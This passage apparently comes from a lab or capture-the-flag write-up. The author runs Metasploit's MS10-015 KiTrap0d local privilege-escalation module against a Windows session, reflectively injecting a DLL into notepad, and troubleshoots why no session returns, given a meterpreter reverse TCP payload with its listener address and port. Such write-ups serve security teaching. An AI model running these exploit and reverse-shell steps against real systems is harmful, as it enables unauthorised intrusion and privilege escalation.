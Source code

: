 
### MS10-015

I’ll give `exploit/windows/local/ms10_015_kitrap0d` a run.

    
    
    msf5 exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d
    msf5 exploit(windows/local/ms10_015_kitrap0d) > options
    
    Module options (exploit/windows/local/ms10_015_kitrap0d):
    
       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SESSION                   yes       The session to run this module on.
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Windows 2K SP4 - Windows 7 (x86)
    

I’ll set the session to 1, and then run it… and it fails:

    
    
    msf5 exploit(windows/local/ms10_015_kitrap0d) > set session 1
    session => 1
    msf5 exploit(windows/local/ms10_015_kitrap0d) > run
    
    [*] Started reverse TCP handler on 10.1.1.41:4444
    [*] Launching notepad to host the exploit...
    [+] Process 2672 launched.
    [*] Reflectively injecting the exploit DLL into 2672...
    [*] Injecting exploit into 2672 ...
    [*] Exploit injected. Injecting payload into 2672...
    [*] Payload injected. Executing exploit...
    [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
    [*] Exploit completed, but no session was created.
    

If I run `options`, I’ll see why:

    
    
    msf5 exploit(windows/local/ms10_015_kitrap0d) > options
    
    Module options (exploit/windows/local/ms10_015_kitrap0d):
    
       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SESSION  1                yes       The session to run this module on.
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     10.1.1.41        yes       The listen address (an interface may be specified)
       LPORT     4444             yes       The listen port
    